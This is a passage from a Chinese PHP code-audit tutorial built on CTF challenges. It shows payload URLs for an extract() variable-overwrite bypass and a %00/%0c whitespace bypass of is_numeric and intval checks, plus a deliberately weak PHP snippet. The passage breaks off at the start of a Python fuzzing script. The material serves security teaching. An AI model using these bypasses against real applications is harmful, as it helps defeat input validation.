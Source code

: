﻿# PHP代码审计分段讲解

- **作  者：bowu**
- **网  站：[Bowu‘ s Blog](http://www.bowu8.com)**
- **Github: [bowu (Github)](https://github.com/bowu678/php_bugs)**
- **本项目将会持续更新，请`Star`予以支持，感谢亲 :)**

## 关于本项目

代码审计对于很多安全圈的新人来说，一直是一件头疼的事情，也想跟着大牛们直接操刀审计CMS？却处处碰壁：

- 函数看不懂！
- 漏洞原理不知道！
- PHP特性更不知！

**那还怎么愉快审计？**

不如**化繁为简**，跟着本项目先搞懂PHP中大多敏感函数与各类特性，再逐渐增加难度，直到可以吊打各类CMS~

> 本项目讲解基于多道CTF题，玩CTF的WEB狗也不要错过(＾－＾)V

> 题的源码在Github: [bowu (Github)](https://github.com/bowu678/php_bugs)，可以自行部署，也可以静态审计。

**欢迎贡献题目与解答，代表各位小白感激不尽~**

## 01 extract变量覆盖

`http://127.0.0.1/Php_Bug/extract1.php?shiyan=&flag=1`

## 02 绕过过滤的空白字符

可以引入\f（也就是%0c）在数字前面，来绕过最后那个is_palindrome_number函数，而对于前面的数字判断，因为intval和is_numeric都会忽略这个字符，所以不会影响。

`http://127.0.0.1/Php_Bug/02.php?number=%00%0c191`

Fuzzing思路：
 `http://127.0.0.1/Php_Bug/02.php?number=%00%2B191`
%2B解析后为+，‘+191'=='191'且intval('191+')==191
(这道题解题思路如下
1. 条件is_numeric($_REQUEST['number'])为假，这个绕过的方法很多使用%00开头也可以再POST一个number参数把GET中的覆盖掉也可以，所以这一步很简单。
2. 要求 $req['number']==strval(intval($req['number']))
3. 要求intval($req['number']) == intval(strrev($req['number']))
4. is_palindrome_number()返回False，这个条件只要在一个回文数比如191前面加一个字符即可实现
5. 得到flag
看上述条件，条件4需要加字符但是加了之后需要满足2,3这两个条件所以就可以在原题目中简化出2,3,4来进行Fuzzing，简化后后端代码如下：
```php
<?php
function is_palindrome_number($number) {
    $number = strval($number); //strval — 获取变量的字符串值
    $i = 0;
    $j = strlen($number) - 1; //strlen — 获取字符串长度
    while($i < $j) {
        if($number[$i] !== $number[$j]) {
            return false;
        }
        $i++;
        $j--;
    }
    return true;
}
$a = trim($_GET['number']);
var_dump(($a==strval(intval($a)))&(intval($a)==intval(strrev($a)))&!is_palindrome_number($a))
?>
```
Fuzzing代码如下：
```python
import requests
for i in range(256):
```